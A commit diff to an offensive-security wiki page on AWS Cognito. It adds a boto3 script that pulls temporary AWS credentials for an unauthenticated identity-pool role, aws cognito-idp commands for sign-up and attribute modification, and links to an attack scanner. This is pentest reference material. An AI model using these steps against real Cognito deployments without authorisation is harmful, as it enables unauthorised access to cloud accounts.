

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/cloud/aws/aws-cognito.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
GPO and AWS Cognito

````diff
--- a/docs/cloud/aws/aws-cognito.md
+++ b/docs/cloud/aws/aws-cognito.md
@@ -1,4 +1,12 @@
 # AWS - Service - Cognito
+
+AWS Cognito is an AWS-managed service for authentication, authorization, and user management.
+
+1. A user signs in through Cognito User Pools (authentication) or via a federated IdP (Google, Facebook, SAML, etc.).
+2. Cognito Identity Pools can then exchange this identity for temporary AWS credentials (from STS — Security Token Service).
+3. These credentials (Access Key ID, Secret Access Key, and Session Token) let the app directly call AWS services (e.g., S3, DynamoDB, API Gateway) with limited IAM roles/policies.
+
+## Tools
 
 * [Cognito Scanner](https://github.com/padok-team/cognito-scanner) - A CLI tool for executing attacks on cognito such as *Unwanted account creation*, *Account Oracle* and *Identity Pool escalation*.
 
@@ -12,31 +20,61 @@
     # For more details go to https://github.com/padok-team/cognito-scanner
     ```
 
-## Get User Information
+## Identity Pool ID
+
+* **User Pools** : User pools allow sign-in and sign-up functionality
+* **Identity Pools** : Identity pools allow authenticated and unauthenticated users to access AWS resources using temporary credentials
+
+Once you have the Cognito Identity Pool Id token, you can proceed further and fetch Temporary AWS Credentials for an unauthenticated role using the identified tokens.
+
+```py
+import boto3
+
+region='us-east-1'
+identity_pool='us-east-1:5280c436-2198-2b5a-b87c-9f54094x8at9'
+
+client = boto3.client('cognito-identity',region_name=region)
+_id = client.get_id(IdentityPoolId=identity_pool)
+_id = _id['IdentityId']
+
+credentials = client.get_credentials_for_identity(IdentityId=_id)
+access_key = credentials['Credentials']['AccessKeyId']
+secret_key = credentials['Credentials']['SecretKey']
+session_token = credentials['Credentials']['SessionToken']
+identity_id = credentials['IdentityId']
+print("Access Key: " + access_key)
+print("Secret Key: " + secret_key)
+print("Session Token: " + session_token)
+print("Identity Id: " + identity_id)
+```
+
+## AWS Cognito Commands
+
+### Get User Information
 
 ```ps1
 aws cognito-idp get-user --access-token $(cat access_token.txt)
 ```
 
-## Admin Authentication
+### Admin Authentication
 
 ```ps1
 aws cognito-idp admin-initiate-auth --access-token $(cat access_token)
 ```
 
-## List User Groups
+### List User Groups
 
 ```ps1
 aws cognito-idp admin-list-groups-for-user --username user.name@email.com --user-pool-id "Group-Name"
 ```
 
-## Sign up
+### Sign up
 
 ```ps1
 aws cognito-idp sign-up --client-id <client-id> --username <username> --password <password>
 ```
 
-## Modify Attributes
+### Modify Attributes
 
 ```ps1
 aws cognito-idp update-user-attributes --access-token $(cat access_token) --user-attributes Name=<attribute>,Value=<value>
@@ -44,4 +82,4 @@
 
 ## References
 
-* TODO
+* [Exploiting weak configurations in Amazon Cognito - Pankaj Mouriya - April 6, 2021](https://blog.appsecco.com/exploiting-weak-configurations-in-amazon-cognito-in-aws-471ce761963)
````
Also changed, not shown: docs/active-directory/ad-adds-group-policy-objects.md (+29 -9 lines), docs/databases/mssql-audit-checks.md (+6 -15 lines), docs/databases/mssql-enumeration.md (+6 -2 lines).
